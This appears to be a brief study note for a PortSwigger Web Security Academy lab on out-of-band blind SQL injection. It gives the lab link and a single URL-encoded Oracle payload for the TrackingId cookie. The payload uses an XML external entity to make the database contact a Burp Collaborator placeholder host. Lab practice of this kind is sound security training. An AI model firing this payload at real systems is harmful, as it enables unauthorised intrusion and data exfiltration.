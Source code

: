 https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-using-out-of-band-oast-techniques/sql-injection/blind/lab-out-of-band

![[Pasted image 20250627223613.png]]
1. `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`